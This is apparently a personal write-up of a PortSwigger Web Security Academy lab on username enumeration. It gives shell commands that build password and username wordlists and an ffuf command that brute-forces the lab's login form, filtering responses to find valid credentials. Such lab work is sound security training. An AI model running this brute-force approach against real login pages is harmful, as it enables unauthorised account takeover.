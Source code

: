 https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses

first set the passwords word list:
```sh
echo "123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
123123
baseball
abc123
football
monkey
letmein
shadow
master
666666
qwertyuiop
123321
mustang
1234567890
michael
654321
superman
1qaz2wsx
7777777
121212
000000
qazwsx
123qwe
killer
trustno1
jordan
jennifer
zxcvbnm
asdfgh
hunter
buster
soccer
harley
batman
andrew
tigger
sunshine
iloveyou
2000
charlie
robert
thomas
hockey
ranger
daniel
starwars
klaster
112233
george
computer
michelle
jessica
pepper
1111
zxcvbn
555555
11111111
131313
freedom
777777
pass
maggie
159753
aaaaaa
ginger
princess
joshua
cheese
amanda
summer
love
ashley
nicole
chelsea
biteme
matthew
access
yankees
987654321
dallas
austin
thunder
taylor
matrix
mobilemail
mom
monitor
monitoring
montana
moon
moscow
" >./password-list.txt
```

```sh
echo "carlos
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
academico
acceso
access
accounting
accounts
acid
activestat
ad
adam
adkit
admin
administracion
administrador
administrator
administrators
admins
ads
adserver
adsl
ae
af
affiliate
affiliates
afiliados
ag
agenda
agent
ai
aix
ajax
ak
akamai
al
alabama
alaska
albuquerque
alerts
alpha
alterwind
am
amarillo
americas
an
anaheim
analyzer
announce
announcements
antivirus
ao
ap
apache
apollo
app
app01
app1
apple
application
applications
apps
appserver
aq
ar
archie
arcsight
argentina
arizona
arkansas
arlington
as
as400
asia
asterix
at
athena
atlanta
atlas
att
au
auction
austin
auth
auto
autodiscover" >./username-list.txt
```
Then use it for fuzzing, the number of threads, the number after the `-t` flag, may vary from your computer, internet, processor
```sh
	ffuf -u https://0a3a00600450848882342a9d00da00e1.web-security-academy.net/login -X POST -d "username=W1&password=W2" -w username-list.txt:W1 -w password-list.txt:W2 -replay-proxy http://127.0.0.1:8080 -fl 65,66 -t 100 
	```
Then filter negatively for 200, because now we know from the previous lab that the right one will be a 302 redirect
![[Pasted image 20241104234706.png]]
And it will appear